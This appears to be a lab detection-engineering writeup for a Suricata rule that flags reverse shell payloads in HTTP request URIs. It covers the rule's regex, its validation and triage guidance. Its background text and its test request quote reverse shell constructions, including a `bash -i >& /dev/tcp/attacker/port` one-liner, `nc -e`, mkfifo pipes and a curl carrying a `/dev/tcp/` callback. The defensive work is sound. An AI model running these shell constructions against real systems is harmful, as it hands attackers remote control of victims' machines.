

# DET-005: Reverse Shell Payload in HTTP Request

| | |
|---|---|
| SID | 1000006 |
| ATT&CK | [T1059 Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/) with [T1071 Application Layer Protocol](https://attack.mitre.org/techniques/T1071/), Execution and Command and Control |
| Status | Deployed and validated |
| Rule file | `/var/lib/suricata/rules/local.rules` |

## Background

A reverse shell is the payoff step of a web attack. The attacker gets the victim to run a command that connects back out to them and hands over an interactive shell. It usually arrives on the back of command injection or file upload, and the command itself has a small set of recognisable shapes: `bash -i` piped through `/dev/tcp`, netcat with an execute flag, a named pipe built with `mkfifo`, or a Python or Perl one liner that opens a socket and spawns a shell.

Those shapes are the fingerprint. Unlike a generic command, `/dev/tcp/` and `nc -e` almost never appear in normal traffic, so matching them is high signal.

## Rule design

The rule inspects the HTTP request URI for the common reverse shell constructions:

```
/(?:\/dev\/tcp\/|\bmkfifo\b|nc(?:\s|%20|\+)+(?:-e|-c)|bash(?:\s|%20|\+)+-i|python[0-9]?(?:\s|%20|\+)+-c)/i
```

- `\/dev\/tcp\/` is the bash reverse shell. Bash can open a TCP socket through this pseudo device, so `bash -i >& /dev/tcp/attacker/port` is the classic one liner.
- `nc -e` or `nc -c` is netcat told to execute a shell on connect.
- `bash -i` is an interactive bash, which is what a reverse shell asks for.
- `mkfifo` builds the named pipe that backgrounded netcat reverse shells use when the netcat build has no execute flag.
- `python -c` catches the socket-and-subprocess one liners.

The separators are written `(?:\s|%20|\+)` rather than a bare space, so a payload works whether the space arrives literal, percent encoded, or plus encoded. This is the same encoding tolerance used in [DET-001](DET-001-sql-injection.md).

This overlaps with [DET-002](DET-002-command-injection.md) by design, and the overlap is useful rather than redundant. Command injection detects that someone chained a command. This detects that the command is specifically a reverse shell, which is a much more serious finding and deserves its own signature and its own severity. A real attack often trips both, and that is fine.

**Limitation.** This detects the payload when it crosses the wire inside an HTTP request URI. A reverse shell delivered in a POST body, or over an already established channel, or over raw TCP with no HTTP wrapper, is a different detection with a different sensor placement. Matching the fingerprint in HTTP is the layer that fits a web facing sensor.

## The rule

```
alert http any any -> $HOME_NET any (msg:"LOCAL WEB Reverse Shell Payload in HTTP Request"; flow:to_server,established; http.uri; pcre:"/(?:\/dev\/tcp\/|\bmkfifo\b|nc(?:\s|%20|\+)+(?:-e|-c)|bash(?:\s|%20|\+)+-i|python[0-9]?(?:\s|%20|\+)+-c)/i"; classtype:trojan-activity; sid:1000006; rev:1;)
```

## Validation

`suricata -T` passed and the rule loaded on restart.

The `/dev/tcp/` construction is the highest signal fingerprint and needs no listener to test, since the detection is request side. Attack from Kali:

```bash
curl "http://10.10.10.20/?x=/dev/tcp/10.10.10.10/4444"
```

Confirmed in Splunk:

```spl
index=suricata sourcetype=suricata:eve event_type=alert alert.signature_id=1000006 earliest=-15m
| table _time src_ip dest_ip http.url alert.signature
```

The alert fired, `10.10.10.10` to `10.10.10.20`, with the `/dev/tcp/` payload in `http.url`.



## Triage notes

`http.url` shows the exact callback construction, and the IP and port the shell was told to connect to are right there in the `/dev/tcp/host/port` string. That destination is an immediate pivot: it is the attacker's listener, and any outbound connection from the victim to that address and port confirms the shell actually connected.

This is one to treat as high severity on sight. A reverse shell payload in a request is not reconnaissance or a probe, it is an attempt at hands on access. If [DET-002](DET-002-command-injection.md) also fired for the same source, you are watching command injection being used to plant a shell, which is a full exploitation chain in two alerts.

## Tuning

None applied. The fingerprints are specific enough that normal traffic does not contain them. If a legitimate application ever passed one of these strings in a URL, which would be unusual, the fix would be an exception scoped to that path rather than removing the construction from the pattern.
